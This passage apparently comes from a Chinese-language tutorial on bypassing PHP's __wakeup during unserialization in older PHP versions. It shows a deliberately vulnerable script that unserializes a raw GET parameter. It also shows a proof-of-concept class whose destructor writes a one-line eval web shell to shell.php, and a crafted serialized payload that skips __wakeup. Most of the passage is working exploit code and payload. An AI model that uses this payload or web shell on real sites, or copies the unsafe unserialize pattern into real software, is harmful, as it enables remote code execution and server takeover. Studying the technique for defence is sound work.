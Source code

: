 ```php
    {
        // 返回由对象属性组成的关联数组，把所有的属性置空
        foreach(get_object_vars($this) as $k => $v)
        {
            $this->$k = null;
        }
        echo "waking up...n";
    }
}
$poc = $_GET['poc']; //通过poc参数来传递序列化字符。
/*if(!isset($poc))
{
    show_source(__FILE__);
    die();
}*/
print_r("your payload:".$poc);
$a = unserialize($poc);
// PHP5小于5.6.25或PHP7小于7.0.10
```

分析poc.php文件源码

```php
<?php
// PHP5小于5.6.25或PHP7小于7.0.10
class Test
{
    private $poc = '';
    public function __construct($poc)
    {
        $this->poc = $poc;
    }
    function __destruct()
    {
        if ($this->poc != '')
        {
            file_put_contents('shell.php', '<?php eval($_POST["shell"]);?>');
                die('Success!!!');
            }
        else
        {
            die('fail to getshell!!!');
        }
    }
    function __wakeup()
    {
        foreach(get_object_vars($this) as $k => $v)
        {
            $this->$k = null;
        }
        echo "waking up...n";
    }
}
$a = new Test('shell'); //生成这个test对象，并给私有属性赋值。
$poc = serialize($a); //把该对象序列化并输出序列化字符。
print($poc); 
// PHP5小于5.6.25或PHP7小于7.0.10
// 1改为大于1的数字
// 注意：将Testpoc改为%00Test%00poc，因为对象的私有属性会被加上类名+属性名的拼接。所以需要使用%00包裹这个Test
// O:4:"Test":2:{s:9:"%00Test%00poc";s:5:"shell";}
```
